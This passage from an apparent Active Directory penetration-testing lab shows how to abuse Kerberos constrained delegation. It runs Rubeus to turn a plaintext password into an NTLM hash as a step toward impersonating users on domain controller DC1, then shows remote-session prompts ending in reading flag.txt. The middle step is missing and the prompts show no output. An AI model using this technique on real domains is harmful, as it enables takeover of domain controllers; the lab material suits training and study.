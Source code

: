 ![Get-NetUser](img/Get-NetUser.png)

We can see that the user `web_service` is configured for delegating the HTTP service to the Domain Controller `DC1`. The HTTP service provides the ability to execute `PowerShell Remoting`. Therefore, any threat actor gaining control over `web_service` **can request a Kerberos ticket for any user in Active Directory** and **use it to connect to** `DC1` over `PowerShell Remoting`.

Before we request a ticket with `Rubeus` (which expects a password hash instead of cleartext for the `/rc4` argument used subsequently), we need to use it to convert the plaintext password `Slavi123` into its `NTLM hash` equivalent:

```powershell
PS C:\Users\bob\Downloads> .\Rubeus.exe hash /password:Slavi123

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1


[*] Action: Calculate Password Hash(es)

[*] Input password             : Slavi123
[*]       rc4_hmac             : FCDC65703DD2B0BD789977F1F3EEAECF

[!] /user:X and /domain:Y need to be supplied to calculate AES and DES hash types!
```


[dc1]: PS C:\Users\Administrator\Documents> hostname
[dc1]: PS C:\Users\Administrator\Documents> whoami
[dc1]: PS C:\Users\Administrator\Documents>
[dc1]: PS C:\Users\Administrator\Documents> hostname
[dc1]: PS C:\Users\Administrator\Documents> whoami
[dc1]: PS C:\Users\Administrator\Documents> dir
[dc1]: PS C:\Users\Administrator\Documents> cat flag.txt